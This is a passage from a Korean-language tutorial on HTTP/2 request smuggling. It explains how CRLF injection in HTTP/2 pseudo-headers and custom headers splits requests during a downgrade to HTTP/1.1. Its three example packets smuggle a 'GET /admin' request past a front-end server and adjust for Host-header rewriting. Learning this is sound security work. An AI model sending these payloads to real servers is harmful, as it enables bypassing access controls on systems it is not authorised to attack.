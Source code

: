 




## 🔸 02-05. HTTP/2 Request 분할

HTTP/2 다운그레이드가 이루어지고 있을 때 헤더에서 분할이 발생하도록 패킷을 구성 할 수 있습니다. 본문을 꼭 포함 하지 않아도 되므로 요청 메서드에 제한받지 않아 더 다양한 공격이 가능합니다. 

예를 들어 GET 요청을 사용할 수도 있습니다. 이는 ‘Content-Length’가 검증되고 Back-end 서버가 ‘Tranfer-Encoding: chunked’ 를 지원하지 않는 경우에도 유용합니다. 

```
:method    |    GET
:path	   |    /example HTTP/1.1\r\nTransfer-Encoding: chunked\r\nX: x
:authority |    test.com
foo        |    bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

## 🔸 02-06. Front-end의 재작성 방식을 고려하여 Request 분할

헤더에서 CRLF(\r\n) 인젝션을 이용해 Request를 분할하려면 Front-end의 Request 재작성 방식을 고려해야하며 필요한 헤더를 수동으로 추가해야 합니다.

예를 들어, Back-end에서는 수신한 두 Request 모두 Host 헤더가 필요한 경우 Smuggling 공격 시 Front-end 에서 재작성되는 방식을 고려하여 Host 헤더가 누락되지 않도록 해야 합니다.

보통 Front-end에서는 `:authority` 헤더를 제거하고 헤더 목록 끝에 Host 헤더를 추가합니다.

아래 패킷에서 foo 헤더 다음에 Host 헤더가 추가되면 래퍼 패킷에는 Host 헤더가 존재하지 않고 Smuggling 패킷에는 Host 헤더가 2개 존재하게 되어 에러가 발생합니다. 

```
:method      |    GET
:path	     |    /
:authority   |    test.com
foo          |    bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: test.com
```

다음과 같이 조정하여 Host 헤더가 추가되더라도 에러가 나지 않도록 해야 합니다.

```
:method      |    GET
:path	     |    /
:authority   |    test.com
foo          |    bar\r\n
Host: test.com\r\n
\r\n
GET /admin HTTP/1.1
```

